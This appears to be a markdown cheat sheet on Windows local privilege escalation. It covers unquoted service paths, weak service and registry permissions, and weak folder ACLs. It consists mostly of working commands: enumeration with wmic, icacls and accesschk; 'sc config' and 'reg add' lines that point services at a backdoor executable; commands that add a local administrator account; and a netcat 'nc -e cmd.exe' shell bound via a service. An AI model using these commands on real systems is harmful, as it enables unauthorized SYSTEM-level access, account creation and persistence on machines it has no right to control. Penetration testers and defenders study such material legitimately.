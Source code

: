 ### Unquoted Service Path

Technically Unquoted Service Path vulnerability is caused by the CreateProcess function in Windows operating systems which may allow unprivileged loc users to modify the affected executable file as a system privilege in order to elevate their privileged from unprivilege to system privilged.

```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```
If you look at the registry entry for this service with Regedit you can see the ImagePath value is:

C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
When Windows attempts to run this service, it will look at the following paths in order and will run the first EXE that it will find:
```
C:\Program.exe
C:\Program Files.exe
C:\Program Files (x86)\Program.exe
C:\Program Files (x86)\Program Folder\A.exe
C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
```
If we can drop our malicious exe successfully on one of these paths, upon a restart of the service, Windows will run our exe as SYSTEM.In order to check the permissions of a folder
```
icacls "C:\WeakServices\Weak Service 1\service1.exe"
icacls "C:\WeakServices\Weak Service 1"
icacls "C:\Program Files (x86)\Program Folder"
icacls "C:\Program Files\Photodex\ProShow Producer\Scsiaccess.exe"
```

### Weak Service Permission



```
accesschk.exe -cv MeMe WeakService3
sc config WeakService3 binpath= "C:\Users\MeMe\Desktop\Backdoor.exe" 
sc config WeakService3 binpath= "net user MeMe MeMe@!@#123 /add" 
sc config WeakService3 binpath= "net localgroup Administrators MeMe /add" 

sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost

```
### WEAK REGISTRY PERMISSIONS

```
accexxchk.exe -kvw MeMe HKLM\SYSTEM\CurrentControlSet\Services\

reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\WeakService4" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\MeMe\Desktop\evilbinary.exe" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\WeakService4" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\MeMe\Desktop\evilbinary.exe" /f

sc qc WeakService4
sc stop WeakService4
sc start WeakService4

```
### Weak Folder Permissions 
```
icacls c:\kioware_com
C:\kioware_com Everyone:(OI)(CI)(F)
               NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
               BUILTIN\Administrators:(I)(OI)(CI)(F)
               BUILTIN\Users:(I)(OI)(CI)(RX)
               BUILTIN\Users:(I)(CI)(AD)
               BUILTIN\Users:(I)(CI)(WD)
               CREATOR OWNER:(I)(OI)(CI)(IO)(F)

```
